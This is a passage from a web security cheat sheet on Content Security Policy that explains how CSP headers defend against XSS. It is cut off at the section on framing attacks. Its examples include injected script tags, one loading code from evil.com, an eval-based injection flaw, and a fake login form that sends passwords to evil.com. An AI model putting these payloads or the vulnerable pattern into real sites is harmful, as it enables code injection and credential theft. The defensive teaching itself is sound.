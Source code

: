 # Content Security Policy Cheat Sheet 
## Introduction 
This article brings forth a way to integrate the **defense in depth** concept to the client-side of web applications. By injecting the
Content-Security-Policy (CSP) headers from the server, the browser is aware and capable of protecting the user from dynamic calls that will
load content into the page currently being visited. 
## Context 
The increase in XSS (Cross-Site Scripting), clickjacking, and cross-site leak vulnerabilities demands a more **defense in depth** security
approach. 
### Defense against XSS 
CSP defends against XSS attacks in the following ways: 
#### 1. Restricting Inline Scripts {#1-restricting-inline-scripts} 
By preventing the page from executing inline scripts, attacks like injecting
 
```
    <script>document.body.innerHTML='defaced'</script> 
```
 will not work.
 #### 2. Restricting Remote Scripts {#2-restricting-remote-scripts}
 By preventing the page from loading scripts from arbitrary servers,
attacks like injecting 
```
     <script src="https://evil.com/hacked.js"></script>
```
 
will not work. 
#### 3. Restricting Unsafe JavaScript {#3-restricting-unsafe-javascript} 
By preventing the page from executing text-to-JavaScript functions like `eval`, the website will be safe from vulnerabilities like the this:
 
```
    // A Simple Calculator     var op1 = getUrlParameter("op1");
    var op2 = getUrlParameter("op2");     var sum = eval(`${op1} + ${op2}`);
    console.log(`The sum is: ${sum}`); 
```
 #### 4. Restricting Form submissions {#4-restricting-form-submissions}
 By restricting where HTML forms on your website can submit their data,
injecting phishing forms won\'t work either. 
```
     <form method="POST" action="https://evil.com/collect">
    <h3>Session expired! Please login again.</h3>     <label>Username</label>
    <input type="text" name="username"/> 
    <label>Password</label>     <input type="password" name="pass"/>
     <input type="Submit" value="Login"/>
    </form> 
```
 #### 5. Restricting Objects {#5-restricting-objects}
 And by restricting the HTML
[object](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/object) tag, it also won\'t be possible for an attacker to inject malicious
flash/Java/other legacy executables on the page. 
### Defense against framing attacks 